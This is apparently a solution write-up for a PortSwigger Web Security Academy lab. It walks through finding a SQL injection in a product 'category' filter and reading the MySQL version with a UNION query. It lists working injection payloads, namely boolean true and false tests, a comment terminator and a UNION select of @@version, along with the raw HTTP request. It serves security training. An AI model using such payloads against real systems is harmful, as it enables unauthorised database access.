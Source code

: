 
# 4 - SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------

Generated link: https://0aab0018030112cfc1c781f9007c009c.web-security-academy.net/

Filtering using GET parameter “category”: "/filter?category=Accesories"

/filter?category=Accesories -> Return 4 items

/filter?category=Accessories';# -> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1  -> Return 4 items

/filter?category=Accessories'+and+'1'='0  -> Return 0 items

/filter?category=Accessories'+union+select+0,@@version;# -> Print version

```
GET /filter?category=Accessories'+union+select+0,@@version;# HTTP/2
``` 

![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/1.png)